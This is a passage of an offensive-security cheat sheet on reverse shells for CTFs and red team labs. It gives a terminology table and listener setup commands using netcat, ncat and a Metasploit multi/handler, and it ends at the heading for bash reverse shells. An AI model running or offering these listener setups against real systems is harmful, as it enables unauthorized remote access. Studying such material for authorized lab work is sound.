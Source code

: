 ```yaml
---
icon: square-terminal
---
```


# Reverse Shells (All)

## **Reverse Shells (All Languages) — Payload Arsenal for CTFs & Red Team Labs**

> ⚠️ Authorized labs and CTFs only. Reverse shells give remote interactive access — never deploy them on real or unapproved targets.\
> Always get **explicit written authorization** before running any payload.

***

### I. 🧩 Concept Refresher

| Term              | Meaning                                                             |
| ----------------- | ------------------------------------------------------------------- |
| **Reverse Shell** | Target connects back to your listener (bypasses inbound firewall).  |
| **Bind Shell**    | Target listens; you connect to it.                                  |
| **Listener**      | Your receiving endpoint (e.g., `nc -lvnp 4444`).                    |
| **TTY Upgrade**   | Converts a raw shell to interactive (Ctrl+C, tab completion, etc.). |

***

### II. 🧠 Universal Listener Setup

```bash
# Netcat
nc -lvnp 4444

# Ncat (Windows-friendly)
ncat -lnvp 4444

# Metasploit multi/handler
use exploit/multi/handler
set payload linux/x64/shell_reverse_tcp
set LHOST <ip>
set LPORT 4444
run
```

***

### III. 🐚 Bash Reverse Shells
